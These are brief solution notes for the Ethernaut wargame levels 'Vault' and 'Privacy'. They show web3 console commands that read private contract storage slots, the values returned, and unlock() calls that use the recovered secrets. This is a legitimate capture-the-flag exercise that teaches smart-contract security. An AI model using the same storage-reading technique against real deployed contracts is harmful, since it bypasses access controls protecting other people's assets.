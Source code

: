 Ethernaut-8
Vault
await web3.eth.getStorageAt(contract.address,0);
'0x0000000000000000000000000000000000000000000000000000000000000001'
await web3.eth.getStorageAt(contract.address,1);
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29');



Ethernaut-12
Privacy
await web3.eth.getStorageAt(contract.address,5);
'0xca03c07d7d4db33332f667b60c547f144c461340eb1823da7ef202949b67e677'
await contract.unlock('0xca03c07d7d4db33332f667b60c547f14');